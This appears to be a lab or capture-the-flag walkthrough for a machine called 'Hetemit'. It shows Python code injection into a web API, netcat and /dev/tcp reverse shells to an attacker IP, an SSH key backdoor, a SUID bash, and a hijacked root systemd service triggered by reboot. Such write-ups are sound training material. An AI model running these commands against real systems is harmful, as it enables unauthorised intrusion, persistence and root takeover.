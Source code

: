 # Hetemit

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:27 +08
Warning: 192.168.201.117 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.201.117
Host is up (0.18s latency).
Not shown: 65479 filtered tcp ports (no-response), 49 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
18000/tcp open  biimenu
50000/tcp open  ibm-db2
```

Lots of ports. FTP allows for anonymous access, but just hangs.&#x20;

### Web Enumeration --> Python Code Injection

Port 80 had the default Apache HTTP Server:

<figure><img src="../../../.gitbook/assets/image (68) (1).png" alt=""><figcaption></figcaption></figure>

Ran a directory scan on this and didn't find much.

Port 50000 had a simple API running:

<figure><img src="../../../.gitbook/assets/image (576) (2).png" alt=""><figcaption></figcaption></figure>

If we use the `/generate` option, it just returns us this:

```
$ curl http://192.168.201.117:50000/generate
{'email@domain'}
```

I tried sending POST requests to this:

<figure><img src="../../../.gitbook/assets/image (86) (3).png" alt=""><figcaption></figcaption></figure>

Not too sure what to do with that token. However, we notice that this is running a Python server. The `/verify` endpoint also accepts POST requests, but it always seems to fail:

<figure><img src="../../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

Since this was running a Python based server, we can try some Python code injection.&#x20;

<figure><img src="../../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

This looks like it works. Another test confirms that it works:

<figure><img src="../../../.gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

So this script has the `os` module imported, meaning we can get an easy reverse shell:

```python
os.system("nc -e /bin/bash 192.168.45.191 21")
```

<figure><img src="../../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Misconfigured Services + Reboot

The user is able to reboot the system:

```
[cmeeks@hetemit ~]$ sudo -l
Matching Defaults entries for cmeeks on hetemit:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```

This indicates to me that there is some kind of startup script to exploit. I ran a `linpeas.sh` scan on the machine to enumerate, and it found quite a few misconfigured services:

<figure><img src="../../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

We can overwrite this to execute a script that gives us a reverse shell. I included the SUID bit in my script just in case the shell doesn't work:

```bash
#!/bin/bash

chmod u+s /bin/bash
bash -i >& /dev/tcp/192.168.45.191/18000 0>&1
```

I also included my SSH key within the `authorized_keys` folder for backdoor access.

```bash
cd ~
mkdir .ssh
echo 'KEY' >> .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
chmod 700 .ssh
```

Afterwards, using `vi` we can edit the service file:

```
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/shell.sh
TimeoutSec=30
RestartSec=15s
User=root
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Then, we can run `sudo /sbin/reboot` to restart the machine. Then we just have to wait for a bit before we can SSH back in. The reverse shell didn't work for some reason, but the SUID binary command did:

<figure><img src="../../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

Rooted!
